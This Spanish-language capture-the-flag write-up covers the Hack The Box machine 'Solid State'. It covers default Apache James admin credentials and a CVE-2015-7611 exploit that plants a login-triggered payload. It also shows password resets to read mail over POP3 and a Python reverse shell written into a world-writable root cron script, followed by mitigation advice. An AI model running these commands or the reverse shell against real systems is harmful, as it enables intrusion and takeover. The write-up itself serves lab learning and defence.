









# Solid State

[{ .maquina-icono }](https://app.hackthebox.com/machines/SolidState)

## Resumen

Máquina Linux que gira alrededor de **Apache James 2.3.2**, un servidor de correo con un
historial feo. La herramienta de administración remota (puerto **4555**) se queda con las
**credenciales por defecto** `root:root`, y la versión arrastra la **CVE-2015-7611**, que
permite ejecución de comandos a través del nombre de un usuario. Con eso dejamos un payload que
salta **cuando alguien inicia sesión**; reseteamos la contraseña de **mindy**, leemos su correo
por **POP3** para sacar su clave de SSH, y al entrar por SSH se dispara la reverse. Para root,
un **`/opt/tmp.py`** que podemos escribir y que **cron ejecuta como root**.

## Reconocimiento

Un ping para ver el TTL y el sistema operativo:

```
ping -c 1 10.129.88.124
```

```
64 bytes from 10.129.88.124: icmp_seq=1 ttl=63 time=56.7 ms
```

TTL cercano a **64** → máquina **Linux**.

### Puertos

Primero todos los puertos abiertos y luego el detalle de versiones:

```
nmap -p- --open -T4 --min-rate 5000 10.129.88.124 -oN ports
nmap -p 22,25,80,110,119,4555 -sV -Pn -T4 10.129.88.124 -oN targeted
```



```
22/tcp   open  ssh    OpenSSH 7.4p1 Debian
25/tcp   open  smtp
80/tcp   open  http   Apache httpd 2.4.25 (Debian)
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip   (Apache James Remote Admin 2.3.2)
```

> **Un detalle importante:** mi `nmap -sVC` de siempre **se cuelga** en esta máquina por culpa del
> servicio de Apache James; los scripts de reconocimiento se atascan contra él. Por eso tiro de un
> `-sV -Pn` sin scripts y luego enumero James a mano. Si un escaneo se te queda colgado, prueba a
> quitarle los `-sC`/`--script` y a enumerar ese servicio por tu cuenta.

La web del puerto 80 es una página estática corporativa, sin nada aprovechable a simple vista:



El puerto interesante es el **4555**: la herramienta de administración remota de **Apache James
2.3.2**.

## Enumeración

### Credenciales por defecto de Apache James

Buscando la documentación de Apache James, la herramienta de administración remota trae unas
**credenciales por defecto** que mucha gente nunca cambia: `root` / `root`.



Nos conectamos con `netcat` al 4555 y entramos sin problema. Con `listusers` vemos las cuentas:



```
nc 10.129.88.131 4555
Login id: root
Password: root
listusers
```

Hay varias cuentas (`james`, `thomas`, `john`, `mindy`, `mailadmin`)… y una que canta: un usuario
cuyo nombre es una **ruta** rara (`../../../../../../../../etc/bash_completion.d`). Eso ya es la
pista de por dónde va la **CVE-2015-7611**: *Apache James Server 2.3.2, cuando usa repositorios de
usuario basados en ficheros, deja ejecutar comandos del sistema a través del nombre del usuario.*
El nombre se usa como parte de una ruta en disco, así que un nombre con `../` sirve para
**escribir un fichero donde no debería**.

## Explotación

> **Antes de empezar, una nota honesta.** La explotación de esta máquina es un poco rara. El exploit
> deja un payload que salta **cuando alguien inicia sesión** en el sistema. En la máquina nos lo
> ponen fácil porque la clave de SSH de `mindy` está, literalmente, en su buzón de correo; pero en
> un caso real ese login lo haría la propia `mindy` al usar el servidor, y la reverse te caería sin
> que ella se entere. Lo cuento como lo hice, pero con la máquina haciéndome de «usuaria».

### El exploit de Apache James (CVE-2015-7611)

Usamos el PoC de
[CyberQuestor-infosec](https://github.com/CyberQuestor-infosec/Apache-James-Server-2.3.2_Unauthenticated-Remote-Command-Execution-RCE).
Se ejecuta así:



```
python exploit.py 10.129.88.131 10.10.15.39 4444
```

Lo que hace por dentro es crear ese usuario con nombre `../../../../etc/bash_completion.d`, de modo
que el payload acaba en **`/etc/bash_completion.d/`**. ¿Por qué ahí? Porque todo lo que haya en esa
carpeta **bash lo ejecuta al abrir una sesión interactiva**. Es decir: el código no corre ahora,
corre **la próxima vez que alguien entre** por SSH. Así que dejamos un **listener** a la escucha y
nos falta provocar ese login.

### La contraseña de mindy, por POP3

Como no tenemos credenciales de SSH, usamos James para fabricarlas. Desde la propia herramienta de
administración le **cambiamos la contraseña a mindy** (así podremos leer su buzón):

```
setpassword mindy writeup
```

Y leemos su correo por **POP3** (puerto 110) con `curl`, usando la clave que acabamos de poner:

```
curl -v "pop3://10.129.88.131/2" --user mindy:writeup
```



En su buzón hay un correo de su instructor con sus **credenciales de SSH** (y, de paso, un aviso de
que su cuenta está **restringida**):

```
username: mindy
pass: P@55W0rd1!2@
```

### Disparar la reverse

Con el listener abierto en el 4444, hacemos login por SSH como `mindy`:


Al entrar, bash ejecuta el payload que dejamos en `/etc/bash_completion.d/` y nos cae la shell en el
listener. Y como la reverse es un `/bin/bash` normal, **nos saltamos de paso el rbash** con el que
venía restringida la cuenta de mindy:


Leemos la flag de usuario:



```
USER FLAG -> [censurada]
```

## Escalada de privilegios

Enumerando el sistema, en **`/opt`** hay dos cosas: el propio James y un script, **`tmp.py`**:



Y los permisos de `tmp.py` son el regalo:


```
-rwxrwxrwx 1 root root 105 Aug 22 2017 tmp.py
```

Es de **root**, pero **escribible por cualquiera**, y es un script de Python que **cron ejecuta
cada poco tiempo como root**. Así que lo sobrescribimos con una reverse shell:

```python
cat > /opt/tmp.py <<'EOF'
#!/usr/bin/env python
import socket,os,pty
s=socket.socket()
s.connect(("10.10.15.39",12345))
for fd in (0,1,2):
    os.dup2(s.fileno(),fd)
pty.spawn("/bin/bash")
EOF
```

Abrimos un listener en el 12345 y esperamos a que cron lo ejecute. Cuando salta, la shell nos cae
ya como **root**, y leemos la flag final:



```
ROOT FLAG -> [censurada]
```

## Mitigación

- **Cambiar las credenciales por defecto de Apache James** (`root:root`) nada más instalarlo, y
  limitar el acceso a la herramienta de administración (puerto 4555) a localhost o a una red de
  gestión, no dejarla expuesta.
- **Actualizar Apache James.** La 2.3.2 arrastra la **CVE-2015-7611**: no se debería poder meter una
  ruta con `../` como nombre de usuario. Hay que pasar a una versión parcheada; la 2.3.2 lleva años
  sin mantenimiento.
- **No mandar contraseñas por correo.** La clave de SSH de mindy estaba en texto plano en su buzón;
  cualquiera que pudiera leer ese POP3 (como nosotros, tras resetear su clave) se la llevaba.
- **El agujero de root es un fichero world-writable ejecutado por cron como root.** `/opt/tmp.py`
  siendo `-rwxrwxrwx` y lanzado por una tarea de root es una escalada servida: los scripts que corre
  `cron` como root deben pertenecer a root y **no ser escribibles por otros usuarios** (`644`/`755`
  como mucho, nunca `777`).

## Lo que me costó / Lo que aprendí

Lo primero que me despistó fue el **reconocimiento**: mi `nmap -sVC` de siempre se quedaba colgado y
yo pensando que era mi conexión, cuando el problema era el propio servicio de **Apache James**, que
hace que los scripts de nmap se atasquen. La lección me la llevo bien aprendida: si un escaneo se
cuelga, quítale los scripts y enumera ese servicio a mano.

Lo que más me costó entender fue la **mecánica del exploit**. No es el típico «lanzo esto y me cae la
shell»: el payload no se ejecuta cuando lo pones, sino **cuando alguien inicia sesión**, porque cae
en `/etc/bash_completion.d/` y bash lo ejecuta al abrir la sesión. Hasta que no até eso con el hecho
de que necesitaba provocar un login (y que la contraseña de mindy estaba en su propio buzón) no le vi
el sentido a toda la cadena. Es un patrón muy bonito: no atacas el servicio para que te dé una shell,
lo usas para **dejar una trampa** y esperas a que la víctima entre.

Y el final, el `/opt/tmp.py` con permisos `777` ejecutado por cron como root, es el recordatorio de
siempre: un solo fichero con los permisos mal puestos tira abajo toda la máquina.

---

**Flags:**
- `mindy/user.txt` → `[censurada]`
- `root/root.txt` → `[censurada]`
